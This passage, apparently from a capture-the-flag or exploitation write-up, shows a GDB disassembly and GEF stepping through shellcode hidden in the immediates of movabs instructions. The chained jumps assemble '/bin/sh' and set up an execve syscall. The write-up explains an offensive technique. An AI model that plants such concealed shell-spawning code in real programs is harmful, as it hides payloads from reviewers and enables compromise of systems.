 This produces 

```py
Dump of assembler code for function main:
   0x0000000000001129 <+0>:	push   rbp
   0x000000000000112a <+1>:	mov    rbp,rsp
   0x000000000000112d <+4>:	sub    rsp,0x8
   0x0000000000001131 <+8>:	movabs rax,0x6eb90900068bb66
   0x000000000000113b <+18>:	xor    QWORD PTR [rbp-0x8],rax
   0x000000000000113f <+22>:	movabs rax,0x6ebc03110e3c148
   0x0000000000001149 <+32>:	xor    QWORD PTR [rbp-0x10],rax
   0x000000000000114d <+36>:	movabs rax,0x6eb9090732fbb66
   0x0000000000001157 <+46>:	xor    QWORD PTR [rbp-0x18],rax
   0x000000000000115b <+50>:	movabs rax,0x6ebc93110e3c148
   0x0000000000001165 <+60>:	xor    QWORD PTR [rbp-0x20],rax
   0x0000000000001169 <+64>:	movabs rax,0x6eb90906e69bb66
   0x0000000000001173 <+74>:	xor    QWORD PTR [rbp-0x28],rax
   0x0000000000001177 <+78>:	movabs rax,0x6ebd23110e3c148
   0x0000000000001181 <+88>:	xor    QWORD PTR [rbp-0x30],rax
   0x0000000000001185 <+92>:	movabs rax,0x6eb9090622fbb66
   0x000000000000118f <+102>:	xor    QWORD PTR [rbp-0x38],rax
   0x0000000000001193 <+106>:	movabs rax,0x6eb909090909053
   0x000000000000119d <+116>:	xor    QWORD PTR [rbp-0x40],rax
   0x00000000000011a1 <+120>:	movabs rax,0x6eb909090c03148
   0x00000000000011ab <+130>:	xor    QWORD PTR [rbp-0x48],rax
   0x00000000000011af <+134>:	movabs rax,0x6eb909090903bb0
   0x00000000000011b9 <+144>:	xor    QWORD PTR [rbp-0x50],rax
   0x00000000000011bd <+148>:	movabs rax,0x6eb909090d23148
   0x00000000000011c7 <+158>:	xor    QWORD PTR [rbp-0x58],rax
   0x00000000000011cb <+162>:	movabs rax,0x6eb909090f63148
   0x00000000000011d5 <+172>:	xor    QWORD PTR [rbp-0x60],rax
   0x00000000000011d9 <+176>:	movabs rax,0x6eb909090e78948
   0x00000000000011e3 <+186>:	xor    QWORD PTR [rbp-0x68],rax
   0x00000000000011e7 <+190>:	movabs rax,0x6eb90909090050f
   0x00000000000011f1 <+200>:	xor    QWORD PTR [rbp-0x70],rax
   0x00000000000011f5 <+204>:	mov    rax,QWORD PTR [rip+0x2c04]        # 0x3e00
   0x00000000000011fc <+211>:	xor    QWORD PTR [rbp-0x78],rax
   0x0000000000001200 <+215>:	mov    rax,QWORD PTR [rbp-0x78]
   0x0000000000001204 <+219>:	xor    rax,0x13
   0x0000000000001208 <+223>:	mov    QWORD PTR [rbp-0x78],rax
   0x000000000000120c <+227>:	mov    rax,QWORD PTR [rbp-0x78]
   0x0000000000001210 <+231>:	jmp    rax
End of assembler dump.
```

Where `$rax` will point to `0x1133` at the `jmp rax` instruction, jumping into our jumping shellcode:

```py
gef> x/4i 0x1133
   0x1133 <main+10>:	mov    bx,0x68
   0x1137 <main+14>:	nop
   0x1138 <main+15>:	nop
   0x1139 <main+16>:	jmp    0x1141 <main+24>
gef> x/3i 0x1141
   0x1141 <main+24>:	shl    rbx,0x10
   0x1145 <main+28>:	xor    eax,eax
   0x1147 <main+30>:	jmp    0x114f <main+38>
gef> x/4i 0x114f
   0x114f <main+38>:	mov    bx,0x732f
   0x1153 <main+42>:	nop
   0x1154 <main+43>:	nop
   0x1155 <main+44>:	jmp    0x115d <main+52>
gef> x/3i 0x115d
   0x115d <main+52>:	shl    rbx,0x10
```
